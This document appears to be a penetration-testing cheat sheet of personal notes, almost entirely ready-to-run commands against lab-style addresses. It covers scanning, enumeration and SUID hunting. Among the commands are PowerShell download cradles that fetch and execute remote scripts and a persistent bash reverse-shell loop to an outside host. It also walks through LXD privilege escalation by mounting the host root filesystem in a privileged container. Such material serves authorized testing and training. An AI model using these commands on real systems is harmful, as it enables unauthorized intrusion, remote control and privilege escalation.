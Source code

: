 # Penetration Testing Cheat Sheet
Captured learning notes

## Follow redirects
```bash
wget --delete-after url 2>&1 | grep Location:
curl -v -L http://picasaweb.google.com 2>&1 | egrep "^> (Host:|GET)"
```

## Port scanning
```bash
nmap 10.10.10.150 -p-
nmap -sC -sV 10.10.150 -p80 -oA scan
```

## Web scan enumeration
```bash
dirhunt 10.10.10.150
gobuster -u 10.10.10.150 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

## Discover SMB shares
```bash
nmb lookup -A 10.10.10.150
smbclient -L \\fqdn -I 10.10.10.150 -N
```

## TTY/PTY
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

## Export $PATH
```bash
export PATH=​$PATH​:/bin:/sbin:/usr/bin:/usr/sbin:/usr/​local​/bin:/usr/​local​/sbin
```

## Privilege Escalation with SUID
[Linux Privilege Escalation using SUID Binaries](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)
```bash
find / -perm -u=s -type f 2>/dev/null
```
[Linux PrivEsc: Abusing SUID](https://www.gracefulsecurity.com/linux-privesc-abusing-suid/)
```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

Find files not owned by user
```bash
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
```

Find files owned by user
```bash
find / -writable -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
```

Find hidden files
```bash
find / -name ".*" -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
```

## Download Methods
### PowerShell
```powershell
IEX(New-Object Net.WebClient).downloadString('https://10.10.10.150:80/script.ps1')
powershell "(New-Object System.Net.WebClient).downloadFile('http://10.10.10.150:8000/file.exe','file.exe')"
```

## Padbuster
```bash
padbuster http://10.10.10.150 string # -cookies auth=string -encoding 0
```

## Decode/Decrypt
```bash
echo string | base64 --decode
```

## msfvenom
[Creating Metasploit Payloads](https://netsec.ws/?p=331)

## Reverse shell loop
```bash
while true; do sleep 25 && bash -i >& /dev/tcp/10.10.2.58/6666 0>&1; done 2>/dev/null &
```

## Connect to pop3
```bash
openssl s_client -connect 10.10.10.150:995
```

## LXD
Download and build the image locally.
```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine -a i686
```

On victim server, import image, set perms and exec shell
```bash
lxc image import ./alpine-v3.12-i686-20200831_2152.tar.gz --alias myimage
lxc image list

lxc init myimage trevor -c security.privileged=true
lxc config device add trevor mydevice disk source=/ path=/mnt/root recursive=true
lxc start trevor
lxc exec trevor /bin/sh
```
